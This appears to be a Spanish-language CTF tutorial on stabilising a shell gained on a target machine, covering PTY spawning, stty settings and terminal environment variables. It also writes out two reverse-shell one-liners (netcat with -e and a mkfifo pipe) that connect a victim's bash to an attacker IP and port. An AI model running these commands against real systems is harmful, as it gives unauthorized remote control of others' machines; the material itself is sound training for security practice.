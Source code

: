 
------------------

 >El tratamiento de la TTY por lo general no varia mucho en CTFs. Aunque, a veces solo son necesarios algunos pasos, mientras que a veces hay que prácticamente volver a hacer una terminal, lo mas usual es:
 
>Primero:
 
```bash
 script /dev/null -c bash
```
_Script solicita una PTY (Pseudo terminal) al kernel, luego, ejecuta en el proceso hijo que se crea, el comando que pasamos con la flag "-c", es decir una bash. Por ultimo, script no graba nada de la sesión al redirigirlo al /dev/null (Si no esta script disponible, puedes usar Python: python3 -c 'import pty; pty.spawn("/bin/bash")')._

>Ahora, con un CTRL+Z enviamos la Shell a segundo plano y desde nuestra terminal:

```bash
stty raw -echo; fg
```
1. _stty es la herramienta que nos ayudara a cambiar los parámetros de la terminal (eco, señales, etc.)
2. _raw es la flag que nos ayudara a desactivar el procesamiento de señales como CTRL+C (para que al hacerlo la shell no muera) o CTRL+Z (para no poner en segundo plano la shell por error)
3. _-echo Desactiva el echo del teclado, que nos puede dar problemas
4. _; fg (foreground) devuelve a primer plano nuestra querida Shell O.o

>Por ultimo vamos a establecer las variables de entorno correctas para una Shell totalmente funcional:

```bash
export TERM=xterm
export SHELL=/bin/bash
```
_Le estamos diciendo a la Shell que deseamos que la variable de entorno TERM (responsable de especificar el tipo de terminal usado), sea igual a Xterm.
Sí TERM está mal establecido en la máquina, cosas como clear, nano, vim, less, no funcionan correctamente. Y luego Establecemos /bin/bash como la Shell por defecto para que otras herramientas lo usen.

>Como no siempre podemos seguir el paso a paso, aquí hay algunas alternativas si la terminal que obtenemos nos es muy limitada:

>_Si al ingresar a la maquina no podemos usar ni "script" ni "Python" para solicitar una Pseudo terminal al kernel:_

```bash
/bin/bash -i
```
_Si se puede, bash o sh son buenas alternativas, con la flag -i de "Interactive"_

```bash
perl -e 'exec "/bin/bash";'
```
_No tiene que ser Python, cualquier lenguaje interpretado (Como Perl) nos puede ayudar_

```bash
nc -e /bin/bash 172.17.0.1 1234
```
_En ultima instancia, cuando la Shell falle demasiado, podemos hacer una reverse Shell nuevamente con Netcat a nuestra IP por un puerto que no este en uso. Para ello primero debemos estar a la escucha desde nuestra maquina (nc -nlvp 1234)_

>_Si la anterior instancia con Netcat no funciona o no soporta la opción "-e", la tradicional es mas fiable:_

```bash
mkfifo /tmp/f; /bin/cat /tmp/f | /bin/bash -i 2>&1 | nc 172.17.0.1 1234 > /tmp/f
```
1. _Con "mkfifo" Podemos crear un archivo FIFO (Archivo especial que permite la comunicación entre procesos) en la ruta /tmp/f _
2. _Con "; /bin/cat /tmp/f" leemos el pipe (O archivo FIFO) que acabamos de crear con "cat".
3. Con "| /bin/bash -i" redirigimos el stdout o salida estándar del "cat" a una Shell interactiva como comando.
4. Con "2>&1" Redirigimos los errores o stder a la salida estándar o stdout (Para que también se muestren errores en la Shell que obtendremos)
5. Por ultimo, creamos una conexión con "nc" entre nuestra ip y la victima, redirigiendo todo lo que escribamos como atacantes al archivo /tmp/f de la maquina victima.
_Para resumirlo, estamos creando un archivo FIFO que será leído con "cat" y ejecutado con "/bin/bash" en la maquina victima, luego hacemos una conexión con "nc" entre nuestra IP atacante y el archivo FIFO en la IP victima, esta conexión nos da la posibilidad de escribir comandos en tal archivo, este los lee con cat y ejecuta con /bin/bash para luego devolver las respuestas de los comandos a la IP atacante. En pocas palabras, una comunicación bidireccional_

>_Si no podemos exportar variables de entorno normalmente por un "export" boqueado:_

```bash
TERM=xterm SHELL=/bin/bash /bin/bash -i
```
_Esta sintaxis hace exactamente lo mismo que buscamos lograr en un tratamiento de la TTY tradicional, pero, sin el export._

```bash
env TERM=xterm SHELL=/bin/bash /bin/bash
```
Si es necesario, podemos también usar del binario "env" (Cuando nos es permitido) para establecer variables de entorno TEMPORALMENTE